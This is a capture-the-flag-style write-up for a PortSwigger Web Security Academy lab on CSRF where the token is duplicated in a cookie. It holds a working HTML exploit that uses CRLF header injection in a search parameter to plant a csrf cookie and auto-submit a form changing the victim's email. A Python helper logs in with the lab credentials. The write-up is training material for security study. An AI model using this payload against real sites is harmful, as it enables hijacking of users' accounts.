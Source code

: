 ```yaml
---
title: CSRF where token is duplicated in cookie
tags:
  - web-app
  - csrf
  - cross
  - site
  - request
  - forgery
---
```


<a href="https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie/">
6. CSRF where token is duplicated in cookie</a>

This web application is vulnerable to CSRF. An API endpoint and its parameters
are well known, and actions can be taken using a user's cookie without verifying
the redirecting page. The browser reuses the cookie for this site and submits a
POST request on the user's behalf, forging the request. CSRF tokens for this web
application are not correlated with the user's session, but are replicated from
the crsf cookie provided by the server.

To solve this, we use an iframe / img tag to coerce the user's browser into
visiting the /search endpoint for the website. From here, we can set the user's
csrf cookie to our csrf cookie. We then use the CSRF cookie / token to change
the user's email address, coercing the user's browser into submitting a POST
request to change their email address.

Solution:

```html
<html>
  <body>
    <form
      action="https://<LAB ID>.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input
        type="hidden"
        name="email"
        value="pwned&#64;evil&#45;user&#46;net"
      />
      <input type="hidden" name="csrf" value="<CSRF COOKIE>" />
    </form>
    <img
      src="https://<LAB ID>.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=<CSRF COOKIE>%3b%20SameSite=None"
      onerror="document.forms[0].submit()"
    />
  </body>
</html>
```

Script:

```python
# usage:
# python3 6.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net
# --w wiener
# --p peter

import http.client
import re
from argparse import ArgumentParser

import requests

http.client.HTTPConnection.debuglevel = 1


class Solution:
    def __init__(self, url: str, who: str, password: str) -> None:
        self.url = url.rstrip("/")
        self.who = who
        self.password = password
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        login_url = f"{self.url}/login"
        r = self.s.get(login_url)
        r = self.s.post(
            login_url,
            data={
                "csrf": self.s.cookies["csrf"],
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        self.login(self.who, self.password)
        print(f"CSRF cookie: {self.s.cookies['csrf']}")


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--w", "--who", dest="who")
    parser.add_argument("--p", "--password", dest="password")
    args = parser.parse_args()
    s = Solution(args.url, args.who, args.password)
    s.solve()


if __name__ == "__main__":
    main()
```
